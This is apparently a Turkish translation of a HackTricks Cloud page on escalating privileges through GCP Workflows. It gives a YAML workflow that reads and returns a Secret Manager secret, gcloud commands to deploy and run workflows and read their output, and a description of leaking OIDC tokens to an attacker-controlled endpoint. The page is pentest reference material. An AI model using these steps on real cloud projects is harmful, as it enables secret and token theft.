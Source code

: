 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Temel Bilgiler:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Bildiğim kadarıyla, bir Workflow'a bağlı SA'nın kimlik bilgilerini içeren metadata uç noktasına erişim ile bir shell almak mümkün değil. Ancak, Workflow içinde gerçekleştirilmesi gereken eylemleri ekleyerek SA'nın izinlerini kötüye kullanmak mümkündür.

Bağlayıcıların belgelerini bulmak mümkündür. Örneğin, bu [**Secretmanager bağlayıcısının sayfası**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Yan menüde birçok diğer bağlayıcıyı bulmak mümkündür.

Ve burada bir sırrı yazdıran bir bağlayıcı örneği bulabilirsiniz:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI'den Güncelleme:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Eğer `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` gibi bir hata alırsanız, sadece **bir dakika bekleyin ve tekrar deneyin**.

Web erişiminiz yoksa, bir Workflow'un çalıştırılmasını tetiklemek ve görmek mümkündür:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Önceki yürütmelerin çıktısını kontrol ederek hassas bilgileri arayabilirsiniz.
{% endhint %}

İzin verilmediği için `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` gibi bir hata alsanız bile, iş akışı oluşturulmuştur.

### OIDC token sızıntısı (ve OAuth?)

[**belgelere göre**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) OAuth veya OIDC token ile bir HTTP isteği gönderecek iş akışı adımlarını kullanmak mümkündür. Ancak, [Cloud Scheduler](gcp-cloudscheduler-privesc.md) durumunda olduğu gibi, Oauth token ile yapılan HTTP isteği `.googleapis.com` ana bilgisayarına yapılmalıdır.

{% hint style="danger" %}
Bu nedenle, **kullanıcı tarafından kontrol edilen bir HTTP uç noktasını belirterek OIDC token sızıntısı yapmak mümkündür**, ancak **OAuth** token sızıntısı için bu korumayı **aşmanız gerekir**. Ancak, OAuth token ile ya bağlantılar ya da HTTP istekleri kullanarak **SA adına eylemler gerçekleştirmek için herhangi bir GCP API'si ile iletişim kurmaya devam edebilirsiniz**.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Bu izin ile `workflows.workflows.create` yerine, zaten mevcut bir iş akışını güncellemek ve aynı saldırıları gerçekleştirmek mümkündür.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
